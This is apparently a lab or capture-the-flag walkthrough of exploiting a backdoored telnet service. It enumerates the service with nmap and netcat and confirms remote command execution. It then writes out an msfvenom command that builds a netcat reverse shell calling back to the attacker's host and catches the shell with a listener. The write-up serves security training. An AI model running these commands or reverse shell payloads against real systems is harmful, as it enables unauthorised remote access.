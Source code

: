 
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.



### Enumerating Telnet:



nmap 10.10.169.221 -Pn -sS -T5 -p- -vvv

![Pasted image 20240918162959](https://github.com/user-attachments/assets/d8c51f70-2762-4bf5-bcfa-27562b37045f)

### Testing the port with Netcat:

nc 10.10.169.221 8012


![Pasted image 20240918163707](https://github.com/user-attachments/assets/06e2d5ee-9349-4742-8649-26bdea9d4057)

So, from our enumeration stage, we know:

There is a poorly hidden telnet service running on this machine
The service itself is marked "backdoor"
We have possible username of "Skidy" implicated
### Executing command con the remote node:


![Pasted image 20240918154742](https://github.com/user-attachments/assets/beb4522a-3e51-47f4-aef0-faa80b60ede3)


I was able to get and ICMP response from the remote server, it means that I was able to execute command con the local system.


![Pasted image 20240918163559](https://github.com/user-attachments/assets/7768d463-417e-4949-bc1d-1c6cd9c6e2d7)


### Generate a reverse shell payload using msfvenom:



![Pasted image 20240918172441](https://github.com/user-attachments/assets/bc914b81-25bd-41be-8ac4-941158e72d4a)


MSFvenom is a tool that combines Msfpayload and Msfencode, and allows you to generate and encode payloads for Metasploit

![Pasted image 20240918162054](https://github.com/user-attachments/assets/f3b72690-3c87-471b-8ef4-90033966a292)

"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format


msfvenom -p cmd/unix/reverse_netcat lhost=10.10.8.55 lport=4444 R


![Pasted image 20240918155327](https://github.com/user-attachments/assets/e1ddfd39-2322-496b-8f9f-3bba3f6a930e)


### Executing the reverse shell on the remote system:


![Pasted image 20240918161932](https://github.com/user-attachments/assets/1802b354-d070-4f61-8b41-8e91471a9ae9)



### Creating a Netcat listening:


![Pasted image 20240918163517](https://github.com/user-attachments/assets/29861630-18e5-41c6-aa39-4266f5d0da93)

The connection has been stablished 


![Pasted image 20240918163114](https://github.com/user-attachments/assets/79363012-b260-48c8-ac5a-3bbb1dea2793)



![Pasted image 20240918163435](https://github.com/user-attachments/assets/432a3a52-8061-490d-8bea-f9f688c129b0)
